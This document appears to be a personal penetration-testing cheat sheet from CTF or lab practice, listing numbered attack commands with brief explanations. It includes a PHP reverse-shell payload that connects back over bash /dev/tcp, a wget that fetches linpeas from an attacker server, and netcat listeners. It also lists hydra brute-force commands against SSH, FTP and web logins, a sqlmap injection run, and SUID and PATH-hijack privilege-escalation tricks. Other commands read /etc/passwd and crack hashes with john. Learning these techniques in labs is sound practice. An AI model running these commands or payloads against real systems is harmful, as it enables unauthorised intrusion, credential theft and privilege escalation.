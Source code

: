 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'http://blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in     a url
31. ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa stupiduser@192.168.2.38 == for older ssh login
32. sqlmap -u "http://192.168.2.38/phpmyadmin/" --data="pma_username=admin&pma_password=test" --level=5 --risk= --dbms=mysql --technique=B --batch = for sql            injection brute force
33. john --wordlist=rockyou.txt hash.txt == john the ripper hash crack command
34. https://ctftoolkit.com/enumeration == assists with enumeration
35. https://emn178.github.io/online-tools/sha1.html == for encryption and decryption
36. https://copy.sh/brainfuck/ == Brainfuck interpreter
37. export PATH=/tmp/:$PATH == The command export PATH=/tmp/:$PATH modifies your PATH environment variable
